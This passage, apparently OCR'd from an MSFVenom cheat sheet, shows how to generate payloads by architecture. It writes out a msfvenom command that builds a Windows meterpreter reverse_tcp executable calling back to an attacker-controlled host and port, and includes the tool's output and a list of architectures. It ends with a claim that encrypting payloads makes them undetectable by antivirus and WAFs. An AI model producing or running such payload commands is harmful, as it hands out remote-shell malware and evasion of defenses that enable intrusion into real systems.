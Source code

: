 You can specify the framework architecture for the payload using the archs available in this MSFVenom cheat sheet. Use -a to specify the arch for the output payload.  
  
$ msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4545 -f exe > shell.exe  
  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
No encoder or badchars specified, outputting raw payload  
 Payload size: 341 bytes  
Final size of exe file: 73802 bytes  
List all the archs  
$ msfvenom --list archs  
  
Framework Architectures [--arch ]  
========================================  
  
    Name  
    ----  
    aarch64  
    armbe  
    armle  
    cbea  
    cbea64  
    cmd  
    dalvik  
    firefox  
    java  
    mips  
    mips64  
    mips64le  
    mipsbe  
    mipsle  
    nodejs  
    php  
    ppc  
    ppc64  
    ppc64le  
    ppce500v2  
    python  
    r  
    ruby  
    sparc  
    sparc64  
    tty  
    x64  
    x86  
    x86_64  
    zarch  
Payloads with Encryptions  
You can encrypt the payloads using some of the encryption methods available in MSFVenom. Use –encrypt flag to make the payload encrypted or encoded. You can also make the payload undetectable by the AVs and WAFs by encrypting the payload.  
  